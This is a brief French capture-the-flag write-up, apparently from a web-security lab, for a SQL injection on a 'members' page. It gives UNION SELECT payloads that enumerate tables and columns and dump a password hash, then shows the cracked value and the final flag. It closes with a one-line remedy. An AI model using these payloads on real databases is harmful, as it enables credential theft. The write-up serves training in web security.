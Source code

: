 Sur la page members, on remarque qu'il est très facile d'avoir une erreur de syntaxe.

Dans un premier temps on vas lister les tables :
    1 UNION SELECT table_schema, table_name FROM information_schema.tables

Puis on list les colonnes :
    1 UNION SELECT TABLE_NAME, COLUMN_NAME FROM information_schema.columns

Et ensuite on liste les mdps des utilisateurs:
    1 UNION SELECT countersign, Commentaire FROM users

résulat:
    ID: 1 UNION SELECT countersign, Commentaire FROM users 
    First name: 5ff9d0165b4f92b14994e5c685cdce28
    Surname : Decrypt this password -> then lower all the char. Sh256 on it and it's good !

On décripte le hash md5 "First name" -> FortyTwo
on le réduit en minuscule et on l'encrypt en sha256 pour avoir notre flag.

Pour corriger une faille sql il faut sanitize l'entrée utilisateurs

flag : 10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5
